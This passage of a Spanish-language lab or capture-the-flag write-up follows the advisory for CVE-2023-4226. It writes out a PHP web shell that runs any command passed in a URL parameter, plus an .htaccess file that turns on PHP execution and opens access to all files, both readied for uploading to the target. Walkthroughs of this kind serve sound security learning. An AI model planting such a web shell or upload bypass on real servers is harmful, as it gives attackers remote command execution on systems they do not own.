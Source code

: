 Info:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que esta funcionando, pero no veremos nada mas interesante, si seguimos buscando algun `exploit` sobre dicho `Software` veremos lo siguiente:

URL = [Exploit Info CVE-2023-4226](https://starlabs.sg/advisories/23/23-4226/)

Vemos que nos explica como realizar la explotacion, vamos a seguirlo paso a paso, vamos a crear primero el `payload` para poder ejecutar comandos desde el `.php`:

```shell
nano cmd.php

#Dentro del nano
<?php
if (isset($_GET['cmd'])) {
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
} else {
    echo "Usa ?cmd=COMANDO";
}
?>
```

Tambien tendremos que crear un `.htaccess` con el siguiente contenido para que podamos realizar el `exploit`.

```shell
nano .htaccess

#Dentro del nano
php_flag engine on
AcceptPathInfo on
<FilesMatch ".+">
    order allow,deny
    allow from all
</FilesMatch>
```
